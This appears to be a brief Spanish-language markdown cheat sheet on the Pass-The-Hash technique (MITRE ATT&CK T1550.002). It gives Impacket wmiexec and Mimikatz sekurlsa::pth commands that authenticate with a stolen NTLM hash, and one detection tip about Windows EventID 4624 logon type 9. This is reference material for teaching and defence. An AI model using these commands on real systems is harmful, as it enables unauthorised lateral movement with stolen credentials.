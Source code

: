 # 🔄 Pass-The-Hash (MITRE ATT&CK T1550.002)

## 🛠 Herramientas
| Herramienta | Comando |
|-------------|---------|
| **Impacket** | `python3 wmiexec.py -hashes :NTLM_HASH user@target` |
| **Mimikatz** | `sekurlsa::pth /user:admin /domain:corp /ntlm:HASH` |

## 🎯 Detección
- Monitorear eventos Windows `EventID 4624` (logon tipo 9).
